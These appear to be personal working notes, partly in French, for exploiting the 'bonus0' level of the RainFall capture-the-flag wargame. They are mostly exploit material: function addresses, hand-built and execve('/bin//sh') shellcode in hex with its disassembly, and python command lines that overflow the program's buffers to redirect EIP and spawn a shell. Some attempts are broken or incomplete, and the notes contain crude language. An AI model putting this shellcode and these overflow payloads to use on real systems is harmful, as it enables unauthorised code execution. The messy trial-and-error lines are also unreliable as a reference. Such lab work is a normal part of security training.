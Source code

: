 system addresse = 0xb7e6b060 = \x60\xb0\xe6\xb7
 + offset = 0xb7e6b060 + 0x40000701 =  0xF7E6B761 = \x61\xb7\xe6\xf7

\x55\x89\xe5\x83\xec\x28\xc6\x45\xf5\x73\xc6\x45\xf6\x68\xc6\x45\xf7\x01\x0f\xb6\x45\xf7\x83\xe8\x01\x88\x45\xf7\x8d\x45\xf5\x89\x04\x24\xe8\x60\xb0\xe6\xb7\xc9\xc3

strcat = 0x8048390 sans offset



(python -c "print('\x\x\x\x' + 'a'*4092)"; echo $(echo "\x55\x89\xe5\x83\xec\x28\xc6\x45\xf5\x73\xc6\x45\xf6\x68\xc6\x45\xf7\x01\x0f\xb6\x45\xf7\x83\xe8\x01\x88\x45\xf7\x8d\x45\xf5\x89\x04\x24\xe8\x61\xb7\xe6\xf7\xc9\xc3")) | ./bonus0

(python -c "print('a'*409)"; echo $(python -c "print ('a'*96 + '\x55\x89\xe5\x83\xec\x28\xc6\x45\xf5\x73\xc6\x45\xf6\x68\xc6\x45\xf7\x01\x0f\xb6\x45\xf7\x83\xe8\x01\x88\x45\xf7\x8d\x45\xf5\x89\x04\x24\xe8\x61\xb7\xe6\xf7\xc9\xc3')")) | ./bonus0


x50
put add	= 0x80484bd

(echo "test un truc la on est pas des putes"; echo $(printf "oui 012345678901234567890123456789\xbd\x84\x04\x08")) | ./bonus0


# random merde 4095 pour remplir le buffer (segfault a 4096) 
# \n pour mettre la 2eme chaine de caractere
python -c "print('a'*4095 + '\n' + 'test')" | ./bonus0

echo "test un truc la on \n est pas des putes"


Symbol "system" is at 0xb7e6b060 in a file compiled without debugging.

0xb7e6b060 = \x60\xb0\xe60\xb7 - 0x77d8595f = F7F50761 = \x61\x07\xf5\xf7

python -c "print('a'*4095 + '\n' + '\x61\x07\xf5\xf7')" | ./bonus0

# 2eme chaine segfault a > 16 octets 

python -c "print('a'*4095 + '\n' + 'a'*12 + '\x61\x07\xf5\xf7')" | ./bonus0



#function call sh
\x55\x89\xe5\x83\xec\x28\xc6\x45\xf5\x73\xc6\x45\xf6\x68\xc6\x45\xf7\x01\x0f\xb6\x45\xf7\x83\xe8\x01\x88\x45\xf7\x8d\x45\xf5\x89\x04\x24\xe8\x29\xc0\xd3\xaf\xc9\xc3

python -c "print('a'*20 + '\n' + 'a'*(4969 - 21) + )" | ./bonus0


\x26\xf7\xff\xbf debut de notre chaine de caractere


https://failingsilently.wordpress.com/2017/12/14/rop-chain-shell/ # creation d'un autre shellcode
https://bista.sites.dmi.unipg.it/didattica/sicurezza-pg/buffer-overrun/hacking-book/0x2a0-writing_shellcode.html
https://defuse.ca/online-x86-assembler.htm#disassembly2

'\x68\x73\x2f\x2f\x6e\x69\x62\x2f'  = /bin//sh in reverse order 
or can write : '\x68' + '//sh' + '\x68' + '/bin' (68 for push)
(on ecrit dans la stack pour use le moins de carac possible)


"\x6a\x0b\x58\x31\xf6\x56\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\xcd\x80"
'\x6a\x0b\x58\x31\xf6\x56\x68' + '//sh' + '\x68' + '/bin' +'\x89\xe3\x31\xc9\x89\xca\xcd\x80'


0:  6a 0b                   push   0xb
2:  58                      pop    eax
3:  31 f6                   xor    esi,esi
5:  56                      push   esi
6:  68 2f 2f 73 68          push   0x68732f2f
b:  68 2f 62 69 6e          push   0x6e69622f
10: 89 e3                   mov    ebx,esp
12: 31 c9                   xor    ecx,ecx
14: 89 ca                   mov    edx,ecx
16: cd 80                   int    0x80 

eip need to go = 0xBffff726 = \x26\xf7\xff\xbf


bonus0@RainFall:~$ ((python -c "print('\x6a\x0b\x58\x31\xf6\x56\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9' + '\x16' + '\x89\xca\xcd\x80' + 't' * 5 + '\x26\xf7\xff\xbf' + 'c' * 20)"); cat) | ./bonus0
((python -c "print('\x6a\x0b\x58\x31\xf6\x56\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9')"); (python -c "print('\x89\xca\xcd\x80' + 't' * 5 + '\x26\xf7\xff\xbf' + 'c' * 20)"); cat) | ./bonus0

On ecrit notre shellcode dans le buffer qui ne se reset pas, 20 octets pour la premiere chaine (ne pas mettre de /n ou de 0) puis les 4 premier octets de la seconde pour finir notre shellcode, on ajoute 5 octets random pour acceder a l adresse de eip (next instruction de la stack) pour pouvoir jmp au debut de notre shellcode puis x random caractere pour que notre seconde chaine fasse au minimum 20 caracteres (x > 6 pour faire au minimum 20 caracteres && x < (buffermax = 4096 - le nombre deja ecrit))


((python -c "print('\x6a\x0b\x58\x31\xf6\x56\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9')"); (python -c "print('\x89\xca\xcd\x80' + 't' * 5 + '\xbf\xff\xf7\x26'[::-1] + 'c' * 20)"); cat) | ./bonus0
